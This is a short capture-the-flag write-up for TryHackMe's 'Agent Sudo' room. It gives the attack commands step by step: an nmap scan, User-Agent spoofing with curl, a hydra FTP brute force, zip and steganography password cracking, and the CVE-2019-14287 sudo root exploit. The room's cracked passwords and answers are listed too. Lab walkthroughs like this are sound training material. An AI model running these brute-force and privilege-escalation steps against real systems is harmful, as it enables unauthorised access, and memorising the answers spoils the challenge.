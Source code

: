 Agent Sudo (TRYHACKME) WriteUp
'''

#1	
How many open ports?
	nmap <ip>
Ans:-3
#2	
How you redirect yourself to a secret page?
Ans:- User-Agent
curl http://10.10.66.62 -H "User-Agent: C" - L

'''
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
'''

#3	
What is the agent name?
Ans:- chris


+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

#1	
FTP password

hydra -l chris -P /file/dest/rockyou.txt ftp://10.10.66.62
Answer :- crystal

#2	
Zip file password
binwalk -e image.png
zip2john file.zip > hash.txt
john hash.txt --wordlist=rockyou.txt
Answer :- alien

#3	
steg password
steghide extract -sf image.png
Answer :- Area51

#4	
Who is the other agent (in full name)?

Answer :- james

#5	
SSH password

Answer :- hackerrules

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

#1
CVE number for the escalation 

(Format: CVE-xxxx-xxxx)

Answer: for priv-esc:- scp /location/linpeas.sh james@IP:/dev/shm

sudo -l tells us ->
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

CVE-2019-14287 : - To Get Root access we can try to mention a user that doesn't exists
sudo -u#-1 /bin/bash

#2	
What is the root flag?

Answer: ********************************
#3	
(Bonus) Who is Agent R?

